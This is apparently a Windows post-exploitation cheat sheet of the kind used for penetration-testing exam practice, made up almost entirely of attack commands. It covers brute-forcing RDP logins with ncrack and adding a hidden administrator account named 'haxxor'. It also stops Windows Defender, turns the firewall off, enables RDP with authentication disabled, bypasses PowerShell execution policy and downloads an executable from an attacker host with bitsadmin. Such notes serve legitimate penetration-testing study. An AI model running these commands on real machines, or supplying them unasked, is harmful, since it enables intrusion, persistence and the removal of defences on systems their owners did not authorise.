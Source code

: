 ### Scheduled tasks

```
schtasks /query /fo LIST /v

Check this file:
c:\WINDOWS\SchedLgU.Txt
```

### Weak passwords

Remote desktop

```
ncrack -vv --user george -P /root/oscp/passwords.txt rdp://10.11.1.111
```

### Add user and enable RDP

```
# Add new user

net user haxxor Haxxor123 /add
net localgroup Administrators haxxor /add
net localgroup "Remote Desktop Users" haxxor /ADD

# Turn firewall off and enable RDP

sc stop WinDefend
netsh advfirewall show allprofiles
netsh advfirewall set allprofiles state off
netsh firewall set opmode disable
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v UserAuthentication /t REG_DWORD /d 0 /f
```

### Powershell sudo for Windows

```
$pw= convertto-securestring "EnterPasswordHere" -asplaintext -force
$pp = new-object -typename System.Management.Automation.PSCredential -argumentlist "EnterDomainName\EnterUserName",$pw
$script = "C:\Users\EnterUserName\AppData\Local\Temp\test.bat"
Start-Process powershell -Credential $pp -ArgumentList '-noprofile -command &{Start-Process $script -verb Runas}'

powershell -ExecutionPolicy Bypass -File xyz.ps1
```

### Windows download with bitsadmin

```
bitsadmin /transfer mydownloadjob /download /priority normal http://<attacker10.11.1.111>/xyz.exe C:\\Users\\%USERNAME%\\AppData\\local\\temp\\xyz.exe
```

